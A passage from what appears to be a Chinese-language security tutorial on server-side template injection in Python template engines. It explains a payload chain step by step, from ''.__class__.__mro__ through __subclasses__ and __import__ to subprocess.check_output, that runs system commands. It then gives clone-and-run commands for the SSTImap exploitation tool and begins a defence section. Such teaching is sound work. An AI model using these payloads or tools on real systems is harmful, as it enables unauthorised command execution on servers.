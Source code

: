         *(注意: `[XYZ]` 处的索引号需要根据目标环境确定，它代表 `subprocess.Popen` 或类似危险子类在 `object` 的 `__subclasses__()` 列表中的位置，可以通过爆破或信息泄露获得)*
    *   **Payload 分解 (以 `subprocess` 为例):**
        1.  `''.__class__`: 获取空字符串的类 (`<class 'str'>`)。
        2.  `.__mro__[1]`: 访问其方法解析顺序 (Method Resolution Order) 中的父类，通常是基类 `object` (`<class 'object'>`)。
        3.  `.__subclasses__()`: 获取 `object` 类的所有直接和间接子类列表。这是一个包含大量 Python 类的列表。
        4.  `[XYZ]`: 通过索引选择一个潜在有用的子类，如 `subprocess.Popen`（用于执行命令）。**此索引在不同 Python 环境和版本中会变化，需要探测。**
        5.  `.__init__.__globals__['__builtins__']['__import__']`: 通过一系列属性访问，最终获取到 Python 的内置 `__import__` 函数，用于动态导入模块。
        6.  `('subprocess')`: 使用 `__import__` 导入 `subprocess` 模块。
        7.  `.check_output(['ls','-lah'])`: 调用 `subprocess` 模块的 `check_output` 函数执行命令，并返回其标准输出。
    *   **重要：命令与参数分离 (`subprocess.check_output` / `subprocess.run` 等):**
        *   **错误用法:** `check_output('ls -lah', shell=True)` (虽然可行，但 `shell=True` 开启了 shell 解析，极易引入 Shell 注入风险，应避免)。直接 `check_output('ls -lah')` 不会按预期工作。
        *   **正确用法:** `check_output(['ls', '-lah'])`。将命令和参数作为列表传递，这是 `subprocess` 模块推荐的安全方式，避免了 shell 注入风险。

### 自动化利用工具

*   **SSTImap:** 一个流行的开源 Python 工具，专门用于自动化检测和利用 SSTI 漏洞。
    *   **功能:**
        *   自动检测多种模板引擎。
        *   测试注入点。
        *   提供利用模块以执行命令、读写文件等。
    *   **安装与使用:**
        ```bash
        # 克隆仓库
        git clone https://github.com/vladko312/SSTImap.git
        cd SSTImap
        # 安装依赖 (通常需要 Python 3)
        pip install -r requirements.txt # 或者 pip3 install -r requirements.txt

        # 基本用法示例 (POST 请求，注入 'page' 参数)
        python3 sstimap.py -u "http://target.com/vulnerable_page" -X POST -d "page=INJECT_HERE"
        # 或者指定参数注入
        python3 sstimap.py -u "http://target.com/?name=INJECT_HERE"
        ```
    *   SSTImap 会尝试各种 payload 来识别引擎并进行利用。

### 防御措施

防御 SSTI 的关键在于**阻止用户输入被当作模板代码执行**，并限制模板引擎的能力。

1.  **选择安全的模板引擎或配置:**
    *   优先选用默认配置安全、不易被误用导致 SSTI 的模板引擎。
    *   了解并利用模板引擎提供的安全特性。
